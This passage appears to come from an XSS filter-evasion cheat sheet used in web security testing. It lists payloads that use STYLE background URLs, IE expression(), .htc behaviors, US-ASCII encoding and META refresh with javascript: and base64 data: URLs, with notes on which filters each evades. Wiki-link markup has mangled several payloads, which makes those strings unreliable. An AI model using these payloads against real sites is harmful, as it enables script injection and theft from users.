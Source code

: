 #### [[_content/dictionary#S|STYLE]] Tag using Background-image¶
<STYLE>.[[_content/dictionary#X|XSS]]{background-image:url("javascript:alert('XSS')");}</STYLE><A [[_content/dictionary#C|CLASS]]=XSS></A>

#### [[_content/dictionary#S|STYLE]] Tag using Background¶
<STYLE type="text/css">[[_content/dictionary#B|BODY]]{background:url("javascript:alert('[[_content/dictionary#X|XSS]]')")}</STYLE>
<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>

#### Anonymous [[_content/dictionary#H|HTML]] with [[_content/dictionary#S|STYLE]] Attribute¶
The IE rendering engine doesn't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:
<[[_content/dictionary#X|XSS]] STYLE="xss:expression(alert('XSS'))">

#### Local htc File¶
This is a little different than the last two [[_content/dictionary#X|XSS]] vectors because it uses an .htc file that must be on the same server as the XSS vector. This example file works by pulling in the [[_content/dictionary#J|JavaScript]] and running it as part of the style attribute:
<XSS [[_content/dictionary#S|STYLE]]="behavior: url(xss.htc);">

#### [[_content/dictionary#U|US]]-[[_content/dictionary#A|ASCII]] Encoding¶
This attack uses malformed ASCII encoding with 7 bits instead of 8. This [[_content/dictionary#X|XSS]] method may bypass many content filters but it only works if the host transmits in US-ASCII encoding or if you set the encoding yourself. This is more useful against web application firewall ([[_content/dictionary#W|WAF]]) XSS evasion than it is server side filter evasion. Apache Tomcat is the only known server that by default still transmits in US-ASCII encoding.
¼script¾alert(¢XSS¢)¼/script¾

#### [[_content/dictionary#M|META]]¶
The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:
<META [[_content/dictionary#H|HTTP]]-[[_content/dictionary#E|EQUIV]]="refresh" [[_content/dictionary#C|CONTENT]]="0;url=javascript:alert('[[_content/dictionary#X|XSS]]');">

##### [[_content/dictionary#M|META]] using Data¶
Directive [[_content/dictionary#U|URL]] scheme. This attack method is nice because it also doesn't have anything visible that has the word [[_content/dictionary#S|SCRIPT]] or the [[_content/dictionary#J|JavaScript]] directive in it, because it utilizes base64 encoding. Please see [[[_content/dictionary#R|RFC]] 2397](https://datatracker.ietf.org/doc/html/rfc2397) for more details.
<META [[_content/dictionary#H|HTTP]]-[[_content/dictionary#E|EQUIV]]="refresh" [[_content/dictionary#C|CONTENT]]="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

##### [[_content/dictionary#M|META]] with Additional [[_content/dictionary#U|URL]] Parameter¶
If the target website attempts to see if the URL contains <http://>; at the beginning you can evade this filter rule with the following technique:
<META [[_content/dictionary#H|HTTP]]-[[_content/dictionary#E|EQUIV]]="refresh" [[_content/dictionary#C|CONTENT]]="0; URL=http://;URL=javascript:alert('[[_content/dictionary#X|XSS]]');">
